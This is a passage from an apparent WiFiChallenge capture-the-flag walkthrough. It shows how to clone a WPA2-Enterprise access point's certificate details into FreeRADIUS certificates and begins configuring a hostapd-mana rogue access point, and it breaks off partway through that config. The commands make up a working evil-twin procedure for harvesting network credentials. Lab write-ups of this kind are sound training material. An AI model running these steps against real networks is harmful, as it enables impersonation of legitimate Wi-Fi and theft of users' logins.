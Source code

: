 ```bash
Server:

emailAddress=server@WiFiChallenge.com,

commonName=WiFiChallenge CA,

organizationUnitName=Server,

organizationName= WiFiChallenge,

localityName= Madrid,

countryName=ES
```
Why we need these info about AP public key information? Because we will use them to create our own certificates. 
FreeRadius is the tool for this.
---

## 🧪 Change CA and server files with the info you gained
> *At the end of this step we will have two certificates modified with the info we gained from the handshake.*

So, let's do these changes
```bash
sudo vi /etc/freeradius/3.0/certs/ca.cnf
sudo vi /etc/freeradius/3.0/certs/server.cnf
```

And recreate the certificates with the updated info. 
```bash
sudo su
cd  /etc/freeradius/3.0/certs
rm dh
openssl dhparam -out dh -2 2048
make
```

**With this in mind we can use them to impersonate the legitimate AP.** 
## Indeed we have the ROGUE AP. BOOM!

---

## 6. 🏴‍☠️ Set up hostapd-mana

> *We use hostapd-mana to spawn a rogue AP that mimics the original WPA2-Enterprise network, using the previously extracted certs or fake ones signed with same CA.*

Let's create an **eap-user file** to use with hostapd-mana.
```bash
cat << EOF > /tmp/mana.eap_user
* PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
EOF
```
And now let's create the **hostapd-mana** config file (/tmp/network.config).
```bash
essid='wifi-corp'

cat << EOF > /tmp/network.conf
# SSID of the AP
ssid=${essid}

# Network interface to use and driver type
```